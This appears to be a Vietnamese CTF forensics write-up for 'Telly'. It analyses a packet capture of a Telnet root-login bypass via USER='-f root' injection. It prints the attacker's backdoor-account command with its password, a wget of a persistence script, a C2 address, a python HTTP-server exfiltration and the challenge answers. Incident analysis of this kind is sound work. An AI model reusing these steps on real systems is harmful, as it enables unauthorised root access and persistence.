

# Telly

> *Task 1: What CVE is associated with the vulnerability exploited in the Telnet protocol?*
> 
- Telnet là giao thức giống SSH nhưng không có secure.
- Lọc ra giao thức Telnet, folow tcpstream, chữ màu đỏ là client gửi sang server, còn màu xanh là ngược lại.
    
    
    
- “ Ta thấy chuỗi USER.-f root
    - Telnet cho phép tính năng Option Negotiation, cho phép gửi biến môi trường USER và TERM để tự động ghi nhận tên user login và loại terminal đang sử dụng.
    - attacker tạo biến môi trường USER=”-f root” và gửi lên server đang SSH
    - Server sẽ chạy lệnh như /bin/login -h [IP_của_kẻ_tấn_công] -f root
    - -f là bắt buộc đăng nhập bằng root, sau khi chạy lệnh này thì server sẽ cho phép đăng nhập vào luôn mà không cần xác thực.

`CVE-2026-24061`

[https://www.cve.org/CVERecord?id=CVE-2026-24061](https://www.cve.org/CVERecord?id=CVE-2026-24061)

> *Task 2: When was the Telnet vulnerability successfully exploited, granting the attacker remote root access on the target machine?*
> 
- Đổi hiển thị thời gian sang UTC Date and Time of Day
- Display Filter: telnet contains "USER”
- Ra gói tin 52

`2026-01-27 10:39:28`

> *Task 3: What is the hostname of the targeted server?*
> 


- Nhìn vào dấu nhắc lệnh root@backup-secondary

⇒ Hostname là `backup-secondary`

> *Task 4: The attacker created a backdoor account to maintain future access. What username and password were set for that account?*
> 


- Tìm được dòng lệnh tạo user và thêm password
    
    ```jsx
    sudo useradd -m -s /bin/bash cleanupsvc; echo "cleanupsvc:YouKnowWhoiam69" | sudo chpasswd
    ```
    

`cleanupsvc:YouKnowWhoiam69`

> *Task 5: What was the full command the attacker used to download the persistence script?*
> 


`wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh`

> *Task 6: The attacker installed remote access persistence using the persistence script. What is the C2 IP address?*
> 


`91.99.25.54`

> *Task 7: The attacker exfiltrated a sensitive database file. At what time was this file exfiltrated?*
> 
- Attacker đã vào thư mục /otp sau đó chạy http.server để tạo một HTTP server đơn giản bằng module có sẵn trên python3, cho phép tải toàn bộ file của server trên web.


- Các phản hồi từ server trả về cho thấy có IP của attacker là 192.168.72.131 truy cập HTTP server đó để tải file
- Dòng cuối cùng là file mà attacker đã tải về thành công qua method GET cùng với đó là thời gian file được tải.

`2026-01-27 10:49:54`

> *Task 8: Analyze the exfiltrated database. To follow compliance requirements, the breached organization needs to notify its customers. For data validation purposes, find the credit card number for a customer named Quinn Harris.*
> 
- Sử dụng tính năng **Export Objects** trên wireshark để mở các file đã truyền qua các gói tin.
Vào menu **File** -> **Export Objects** -> **HTTP...**
- Mở file đó bằng DB Browser, tìm thấy Quinn Harris ở row 12.


`5312269047781209`